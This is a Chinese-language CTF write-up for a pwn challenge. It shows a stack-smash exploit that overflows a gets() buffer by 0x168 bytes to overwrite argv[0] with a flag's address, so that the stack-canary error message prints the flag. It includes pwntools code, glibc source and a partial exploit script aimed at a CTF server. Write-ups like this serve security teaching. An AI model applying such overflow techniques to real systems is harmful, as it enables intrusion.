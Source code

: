如果我们输入的 v10 为 backdoor，就会调用v9所指向的函数，即读取/flag，所以继续编写代码如下：

```python
p.sendline(b'backdoor')
```

不过，虽然我们知道了 flag 的地址，由于程序有 canary 保护，我们无法输出 flag。 不过想到 canary，突然发觉一件有趣的事，canary 在发现栈溢出报错时，会输出程序的程序名，即：

```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

我们知道 argv 作为系统传递给程序主函数的参数，同样存放在栈上，如果我们能利用 gets 覆盖修改 __libc_argv[0] 为 flag 的地址，是不是就能输出 flag？

说干就干，首先使用 `gdb.attach(p)`，打开pwndbg（建议调试时在脚本目录建一个flag）：

![image-20250116214723551](BestiCTF S1 Week15.assets/image-20250116214723551.png)

可以找到我们输入的地址和argv[1]的地址（红线），使用 `distance 0x7ffefd5b0900 0x7ffefd5b0a68` ，得到距离为0x168，即需要输入0x168个填充字符才能覆盖，编写代码如下：

```python
buf_to_argv0 = 0x168

# Recover argv[0]
payload = b'a' * buf_to_argv0 + p64(target_address)

p.sendline(payload)
p.sendline(b'exitexit')

p.interactive()
```

成功得到 flag：

![image-20250116220925154](BestiCTF S1 Week15.assets/image-20250116220925154.png)

> 我们称这种攻击为 Stack smash，这种方法在 glibc-2.31 之后不可用

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0', '--title', 'gdb', 'bash', '-c']

p = remote("node6.anna.nssctf.cn", 22457)
# p = process('/mnt/c/Users/崔志鹏/Desktop/临时/Attachments/attachment')

target_address = 0x202040
buf_to_argv0 = 0x168

# 64位
context(arch="amd64",os="linux")
```

[^CHTXRT]: 不是